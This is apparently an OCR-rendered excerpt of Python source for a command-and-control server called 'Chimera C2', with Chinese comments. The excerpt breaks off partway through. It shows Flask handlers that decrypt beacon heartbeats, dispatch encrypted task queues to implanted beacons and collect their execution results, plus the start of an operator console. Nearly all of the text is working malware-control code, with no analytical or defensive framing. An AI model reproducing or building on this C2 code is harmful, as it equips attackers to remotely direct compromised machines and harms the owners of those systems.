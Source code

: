 ```python
def handle_heartbeat():
    """处理心跳并下发任务"""
    encrypted_data = base64.b64decode(request.data)
  
    # 找到是哪个信标 (实际应用中，这里需要更复杂的逻辑来识别信标)
    # 简单起见，我们假设能解密的就是对应的信标
    beacon_id = None
    decrypted_data = None
    for bid, bdata in beacons.items():
        try:
            decrypted_data = bdata['crypto'].decrypt(encrypted_data)
            beacon_id = bid
            break
        except Exception:
            continue
        
    if not beacon_id or not decrypted_data:
        return "Unauthorized", 401

    beacons[beacon_id]['last_seen'] = time.time()
    info = json.loads(decrypted_data)
    # print(f"[*] Heartbeat from {beacon_id} (P2P Port: {info.get('p2p_port')})")
  
    # 获取此信标的任务并加密返回
    tasks = task_queue.get(beacon_id, [])
    task_queue[beacon_id] = [] # 清空队列
  
    encrypted_tasks = beacons[beacon_id]['crypto'].encrypt(json.dumps(tasks).encode())
    return base64.b64encode(encrypted_tasks)
  
@app.route('/task_result', methods=['POST'])
def receive_task_result():
    """接收任务执行结果"""
    encrypted_result = base64.b64decode(request.data)
    # 同样，需要找到是哪个信标发来的
    beacon_id = None
    decrypted_result = None
    for bid, bdata in beacons.items():
        try:
            decrypted_result = bdata['crypto'].decrypt(encrypted_result)
            beacon_id = bid
            break
        except Exception:
            continue

    if beacon_id and decrypted_result:
        result_data = json.loads(decrypted_result)
        print(f"\n--- Task Result from {beacon_id} ---")
        print(result_data['result'])
        print(f"----------------------------------\n> ", end="")
    
    return "OK", 200

def c2_console():
    """C2的命令行交互界面"""
    time.sleep(2) # 等待Flask启动
    print("\n" + "="*50)
    print("      Chimera C2 Console -- Type 'help' for commands")
    print("="*50)
  
    while True:
        cmd_line = input("> ").strip()
        if not cmd_line:
```